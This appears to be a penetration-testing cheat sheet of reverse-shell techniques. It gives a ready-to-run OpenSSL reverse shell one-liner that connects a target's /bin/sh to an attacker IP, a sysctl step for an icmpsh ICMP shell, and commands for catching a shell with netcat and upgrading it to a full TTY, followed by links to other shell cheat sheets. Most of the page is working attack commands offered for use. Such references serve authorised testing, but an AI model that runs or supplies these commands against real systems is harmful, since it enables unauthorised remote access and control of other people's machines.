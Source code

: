 # OpenSSL Reverse Shell
[Generate OpenSSL Certificate](../../SSL/OpenSSL/README.md#Generate-SSL-Certificate)
[Start OpenSSL Listener](../../SSL/OpenSSL/README.md#Start-OpenSSL-Listener)
##### From Target, create named pipe and OpenSSL client to connect to Attack Machine.
```bash
# On Target
mkfifo /tmp/x; /bin/sh -i < /tmp/x 2>&1 | openssl s_client -quiet -connect <Attack IP ADdress>:443 > /tmp/x; rm /tmp/x
```

# ICMP Reverse Shell with icmpsh
##### Disable ICMP replies by the OS
```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```
## ICMP Reverse Shell References
[Github icmpsh](https://github.com/bdamele/icmpsh)

[Pentestlab Blog](https://pentestlab.blog/tag/icmpsh/)

[Security Online](https://securityonline.info/icmpsh-simple-reverse-icmp-shell/)

# [Upgrade a linux reverse shell to a fully usable TTY shell](https://zweilosec.github.io/posts/upgrade-linux-shell/)
##### Note: The methods above will not work in every situation. For example, I have regularly run into a problem on my Kali machine where attempting to use stty raw -echo while using zsh as my shell will cause the entire terminal to become unusable. I have gotten around this issue by switching to bash before I start any netcat listener that I will be using to catch a shell.
```bash
bash
rlwrap nc -lvnp $port
which python python2 python3
/usr/bin/python3 -c "import pty; pty.spawn('/bin/bash')"; #spawn a python psuedo-shell
CTRL+Z # to background shell
stty raw -echo # Send control characters to the shell.
stty size # Get terminal window size 48 / 102
fg # foreground shell
export SHELL=bash
stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```

# References
[HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[Staged vs Stageless Handlers](https://buffered.io/posts/staged-vs-stageless-handlers/)

[Upgrade a linux reverse shell to a fully usable TTY shell](https://zweilosec.github.io/posts/upgrade-linux-shell/)